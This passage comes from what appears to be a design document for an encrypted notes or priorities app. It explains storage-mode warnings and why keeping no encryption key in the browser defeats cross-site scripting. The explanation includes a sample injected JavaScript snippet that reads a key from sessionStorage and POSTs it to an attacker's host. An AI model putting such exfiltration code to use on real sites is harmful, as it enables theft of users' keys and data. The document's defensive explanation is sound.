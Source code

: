**Convenience Mode Warning:**
```
⚠️ SECURITY NOTICE

You've chosen "Remember Me" mode. This means:

• Your encryption key is stored on this device
• Anyone who can access this browser can read your data
• This includes family members, coworkers, or anyone else
• Your data is vulnerable to XSS attacks

Only enable this on your private, personal device.

[ ] I understand and accept the risks
[Continue]  [Choose Different Mode]
```

---

## Why Maximum Security Works

### The XSS Problem

**XSS (Cross-Site Scripting)** allows attackers to inject malicious JavaScript into a website. If successful:

```javascript
// Attacker's injected code
const stolenDEK = sessionStorage.getItem('dek');
fetch('https://attacker.com/steal', { 
  method: 'POST', 
  body: stolenDEK 
});
// DEK stolen, all data compromised
```

### Maximum Security Solution

**In Maximum tier, there is no DEK to steal:**

```javascript
// Attacker's injected code
const stolenDEK = sessionStorage.getItem('dek');
// Returns null - nothing stored!

const stolenDEK2 = localStorage.getItem('dek');
// Also returns null

// Attacker gets nothing
```

**User workflow:**
1. User authenticated via PocketBase (long session)
2. User clicks "View April priorities"
3. Modal appears: "Enter password to view encrypted data"
4. User enters password
5. Password sent to server (HTTPS only, never stored)
6. Server unwraps DEK with password
7. Server decrypts data
8. Server returns plaintext data
9. **DEK and password immediately discarded**
10. User sees their data
11. Process repeats for each operation
